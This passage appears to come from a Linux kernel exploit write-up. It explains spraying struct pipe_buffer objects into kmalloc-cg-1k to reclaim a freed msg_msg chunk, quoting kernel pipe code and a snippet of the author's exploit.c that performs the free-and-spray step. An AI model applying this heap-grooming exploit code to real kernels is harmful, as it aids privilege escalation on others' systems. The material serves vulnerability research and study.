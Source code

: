 - [fs/pipe.c:alloc_pipe_info()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n782)
```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	struct pipe_inode_info *pipe;
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
	struct user_struct *user = get_current_user();
	unsigned long user_bufs;
	unsigned int max_size = READ_ONCE(pipe_max_size);

	pipe = kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT);

// ...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
// ... 
}
```
- [fs/pipe.c:pipe_write()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n415)
```c
// ...
			buf = &pipe->bufs[head & mask];
			buf->page = page;
			buf->ops = &anon_pipe_buf_ops;
			buf->offset = 0;
			buf->len = 0;
// ...
```

If we call `pipe` syscall, the `struct pipe_buffer` objects will be allocated.
Then, if we call `write` syscall to the pipe file descriptor, it will leave
vtable pointers to the `struct pipe_buffer` objects. It is worth noting that
these buffer objects are allocated in `kmalloc-cg-1k` slab (Actually, these
buffer objects can have variable sizes though).  

- [exploit/extra-refined/exploit.c#L929](../exploit/extra-refined/exploit.c#L929)
```c
// release the lower msg_msg and spray pipe_buf
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(lower_msg_msg_holder, msg, sizeof(msg_buf), 0, IPC_NOWAIT);
if (ret < 0)
	perror("msgrcv");

for (int i = 0; i < 0x100; i++)
{
	if (pipe(pipefd[i]) < 0)
		err(1, "pipe()");
	write(pipefd[i][1], "aaaaaaaa", 8);
}
```
We free the `struct msg_msg` located below the unaligned `struct msg_msgseg` chunk through `lower_msg_msg_holder`, and then try to reclaim corresponding chunks with `struct pipe_buffer` objects by `pipe` syscall.
